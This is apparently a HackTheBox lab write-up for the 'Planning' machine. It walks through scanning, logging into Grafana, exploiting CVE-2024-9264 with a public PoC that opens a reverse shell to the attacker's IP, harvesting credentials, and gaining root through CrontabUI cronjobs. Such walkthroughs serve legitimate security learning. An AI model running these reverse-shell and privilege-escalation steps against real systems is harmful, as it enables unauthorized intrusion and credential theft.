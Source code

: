 ```yaml
---
title:  Machine Planning - HackTheBox
published: 2025-08-17
description: 'Write-up for machine Planning in HackTheBox'
image: ''
tags: [htb]
category: 'write-up'
draft: false 
lang: ''
---
```


## Overview

This is a machine on HackTheBox, the OS is Linux and is described as below:
```
Machine Information

As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r
```
## Enumerate

After connecting via openvpn, I used `rustscan` to scan for open ports on the machine:

```bash
┌──(venv)─(vuxnx㉿vuxnx)-[~/Documents/HTB]
└─$ rustscan -a 10.129.73.32                                                                                                                                                              
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/vuxnx/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.73.32:22
Open 10.129.73.32:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 23:24 EDT
Initiating Ping Scan at 23:24
Scanning 10.129.73.32 [4 ports]
Completed Ping Scan at 23:24, 0.21s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:24
Scanning planning.htb (10.129.73.32) [2 ports]
Discovered open port 80/tcp on 10.129.73.32
Discovered open port 22/tcp on 10.129.73.32
Completed SYN Stealth Scan at 23:24, 0.22s elapsed (2 total ports)
Nmap scan report for planning.htb (10.129.73.32)
Host is up, received echo-reply ttl 63 (0.18s latency).
Scanned at 2025-08-16 23:24:33 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
With my experience, most machines with these open ports will have a CVE related to RCE on port 80, which can then be used to obtain the necessary credentials for SSH. Alright, let's get started.

When accessing the IP address `10.129.73.32` via browser, the browser reported that the domain name `planning.htb` could not be resolved. Simple, we just need to add this domain to `/etc/hosts`. And, based on experience, 99% of machines like this will require subdomain fuzzing.

Using `ffuf` to fuzz with a response length filter of 178, we found a subdomain `grafana`. Adding this subdomain to `/etc/hosts` and accessing it directly via browser, we can see the Grafana admin login page.

![login](./login.png)

Using the credentials we have, `admin / 0D5oT70Fq13EvB5r`, to log in, Bingo, we have access to the Grafana admin dashboard.

## First exploit

As mentioned earlier, this platform definitely has a CVE leading to RCE. A quick search using `Perplexity` revealed `CVE-2024-9264`:
```
The SQL Expressions experimental feature of Grafana allows for the evaluation of `duckdb` queries containing user input. These queries are insufficiently sanitized before being passed to `duckdb`, leading to a command injection and local file inclusion vulnerability. Any user with the VIEWER or higher permission is capable of executing this attack. The `duckdb` binary must be present in Grafana's $PATH for this attack to function; by default, this binary is not installed in Grafana distributions.
```
Further searching, we found a PoC at [repo](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/tree/main). This repo allows us to establish a reverse shell on our machine. Here, I will set up a reverse shell using `pwncat`:
```
pwncat-cs -lp 4444
```

and run this PoC:
```
python poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.12 --reverse-port 4444
```

Bingo, once again, we are closer to the flag.

## Root ?

I was quite surprised because as soon as I got in via the reverse shell, I already had root privileges (?). 
```bash
(remote) root@7ce659d667d7:/usr/share/grafana# id
uid=0(root) gid=0(root) groups=0(root)
```

Searching for `user.txt`, I found nothing, it seems this is just bait. Okay, as a habit, I ran `linpeas.sh` on the victim machine. The results were quite intriguing. During this process, I also found another set of credentials in the `env`:
```bash
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```
But, what do we use these credentials for? Again, SSH is our ultimate destination. Trying to connect via SSH, we successfully logged in as `enzo`.

### User flag

At this point, we can find the user flag in `/home/enzo/user.txt`

## Continue...

Still setting up and running `linpeas.sh`, I found an unusual path in the crontabs: `/opt/crontabs/crontab.db`. Reading it, we found:

```bash
enzo@planning:~$ cat /opt/crontabs/crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
And, this is a promising PE direction. 

I tried to check if those backup files contained anything, but the results were not very fruitful - they hadn't been backed up yet. And we found another set of credentials `root:P4ssw0rdS0pRi0T3c`. But where do we use these credentials? This part took me the most time.

After some searching, I remembered SSH local tunneling, could there be any ports open internally? A quick check revealed:
```bash
enzo@planning:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:34373         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -              
```

And here, the service on port 8000 is the one we need. Setting up an SSH local tunnel using enzo's credentials, we were brought to a login form. Trying the credentials `root:P4ssw0rdS0pRi0T3c`, we were taken to the CrontabUI page.

![ui](./image_1.png)

### Root flag
At this point, everything seems easier. We can retrieve the root.txt by creating a new cronjob that pipes the content of `/root/root.txt` to `/tmp/tmp.txt`.

![ui](image.png)
